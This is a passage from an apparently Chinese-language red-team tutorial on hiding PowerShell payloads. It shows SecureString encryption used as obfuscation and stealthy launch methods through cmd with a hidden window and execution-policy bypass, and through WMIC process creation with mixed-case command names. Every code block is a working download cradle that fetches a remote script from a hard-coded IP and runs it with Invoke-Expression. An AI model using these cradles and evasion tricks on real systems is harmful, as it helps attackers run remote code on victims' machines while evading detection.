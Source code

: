 SecureString 其实是一种加解密的方式，通过密钥，对脚本进行加解密 ，实现脚本的混淆。

![](https://mmbiz.qpic.cn/mmbiz_png/B7aQ0TKN4UfW02T7pcqCGjw6bPE0CImwLfqofWKxicJ9gib6mRtf4Qn0vuFWgOicE8iaQPkv5cLl8Qj4gia8Jv1B97A/640?wx_fmt=png)

内容：  

| 

$cmd= "Invoke-Expression (New-Object Net.WebClient).DownloadString('http://192.168.118.174:8000/yauncode.txt')"

$sCmd= ConvertTo-SecureString $cmd -AsPlainText -Force

$sCmdPlaintext= $secCmd| ConvertFrom-SecureString -Key (1..16)

$secCmd= $secCmdPlaintext| ConvertTo-SecureString -Key (1..16);

([System.Runtime.InteropServices.Marshal]::PtrToStringAuto([System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($secCmd))) | IEX

语法介绍：

https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/convertto-securestring?view=powershell-7

 |

工具加密效果

![](https://mmbiz.qpic.cn/mmbiz_png/B7aQ0TKN4UfW02T7pcqCGjw6bPE0CImww5CPcqzjibFY8ROH5YtldL6VXmnV63mvILIS4WTAwqdYZ1qSW36Za1A/640?wx_fmt=png)

### 7. 压缩

？

### 8. 启动方式

通过第三方组件进行启动，进一步隐藏真实内容

CMD 内容:

| 

C:\WiNDOws\SYStem32\CmD  /C   POWerSHElL  -wInDoWsTyle  HidDen -eXecutIoNp ByPaSs   "Invoke-Expression (New-Object System.Net.WebClient).DownloadString(\"http://192.168.118.174:8000/yauncode.txt\")"

 |

![](https://mmbiz.qpic.cn/mmbiz_png/B7aQ0TKN4UfW02T7pcqCGjw6bPE0CImwxexXxXiauOulR2gBzibedFiclD1FdPrmTJwPxSfSNfyQSEf0GmwNzjeGw/640?wx_fmt=png)

WMIC:

| 

C:\WINdOws\sySTeM32\wBEM\WmIC 'PRoCESS'   'Call'   'cREatE' "POwERshElL -ExECuti ByPASs  -wi hiDDEN   Invoke-Expression (New-Object System.Net.WebClient).DownloadString("\"http://192.168.118.174:8000/yauncode.txt"\")"
